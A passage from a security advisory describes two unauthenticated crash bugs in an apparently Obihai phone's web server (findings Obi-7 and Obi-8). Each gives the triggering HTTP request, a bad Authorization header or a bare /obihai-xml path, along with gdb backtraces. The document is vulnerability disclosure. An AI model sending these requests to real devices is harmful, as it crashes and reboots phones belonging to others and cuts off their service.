 ### Obi-7. Invalid pointer dereference due to invalid header

Sending an invalid HTTP Authorization header, such as 
"Authorization: foo", causes the program to attempt to read from an invalid
memory address, leading to a segmentation fault and reboot of the device.  This
requires no authentication, only access to the network to which the device is
connected.

    GET / HTTP/1.1
    Host: foo
    Authorization: foo

This causes the server to dereference the address 0xFFFFFFFF, presumably
returned as a -1 error code.

    (gdb) bt
    #0  0x479dc438 in strcpy () from root/lib/libc.so.6
    #1  0x00134ae0 in ?? ()
    (gdb) x/5i $pc
    => 0x479dc438 <strcpy+8>:       ldrb    r3, [r1, #1]!
       0x479dc43c <strcpy+12>:      cmp     r3, #0
       0x479dc440 <strcpy+16>:      strb    r3, [r1, r2]
       0x479dc444 <strcpy+20>:      bne     0x479dc438 <strcpy+8>
       0x479dc448 <strcpy+24>:      bx      lr
    (gdb) i r r1
    r1             0xffffffff       4294967295

### Obi-8. Null pointer dereference due to malicious URL

If the /obihai-xml handler is requested without any trailing slash or component,
this leads to a null pointer dereference, crash, and subsequent reboot of the
phone.  This requires no authentication, only access to the network to which the
device is connected.

    GET /obihai-xml HTTP/1.1
    Host: foo

    (gdb) bt
    #0  0x479dc7f4 in strlen () from root/lib/libc.so.6
    Backtrace stopped: Cannot access memory at address 0x8f6
    (gdb) info frame
    Stack level 0, frame at 0xbef1aa50:
    pc = 0x479dc7f4 in strlen; saved pc = 0x171830
    Outermost frame: Cannot access memory at address 0x8f6
    Arglist at 0xbef1aa50, args: 
    Locals at 0xbef1aa50, Previous frame's sp is 0xbef1aa50
    (gdb) x/5i $pc
    => 0x479dc7f4 <strlen+4>:       ldr     r2, [r1], #4
       0x479dc7f8 <strlen+8>:       ands    r3, r0, #3
       0x479dc7fc <strlen+12>:      rsb     r0, r3, #0
       0x479dc800 <strlen+16>:      beq     0x479dc818 <strlen+40>
       0x479dc804 <strlen+20>:      orr     r2, r2, #255    ; 0xff
    (gdb) i r r1
    r1             0x0      0
